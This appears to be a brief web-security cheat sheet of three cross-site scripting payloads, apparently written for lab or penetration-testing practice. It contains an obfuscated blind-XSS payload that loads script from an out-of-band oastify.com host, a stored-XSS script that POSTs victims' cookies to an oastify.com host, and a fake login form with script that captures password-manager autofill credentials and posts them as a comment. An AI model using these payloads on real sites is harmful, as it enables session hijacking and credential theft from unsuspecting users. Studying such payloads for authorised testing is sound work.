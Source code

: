 
## Blind XSS (OOB) Payload :

The following can be used to test for the presence of a blind XSS vulnerability :

```
</script><svg/onload%3d'%2b/"/%2b/onmouseover%3d1/%2b(s%3ddocument.createElement(/script/.source),+s.stack%3dError().stack,+s.src%3d(/,/%2b/document.cookie().r6y1z743zsk1mg0y5ie2nwss2j8aw4kt.oastify.com/).slice(2),+document.documentElement.appendChild(s))//'>
```

The following can be used to exfiltrate another user's cookie via Stored XSS : 

```
<script>fetch("https://abpk4q9m4bpkrz5ha1jlsfxb72dt1opd.oastify.com",{method:'POST',mode:'no-cors',body:document.cookie});</script>
```

The following can be used to fetch a user's credentials if they use a password manager with an autocomplete feature if a stored XSS vulnerability is present :

```
<input type="text" name="username">  
<input type="password" name="password" onchange="dothis()">  
  
<script>    
	function dothis() {  
    var username = document.getElementsByName('username')[0].value  
    var password = document.getElementsByName('password')[0].value  
    var token = document.getElementsByName('csrf')[0].value  
    var data = new FormData();  
  
    data.append('csrf', token);  
    data.append('postId', 8); // Chenge '8' to correct postId  
    data.append('comment', `${username}:${password}`);  
    data.append('name', 'victim');  
    data.append('email', 'blah@email.com');  
    data.append('website', 'http://blah.com');  
  
    fetch('/post/comment', {  
        method: 'POST',  
        mode: 'no-cors',  
        body: data  
    });  
    };
</script>
```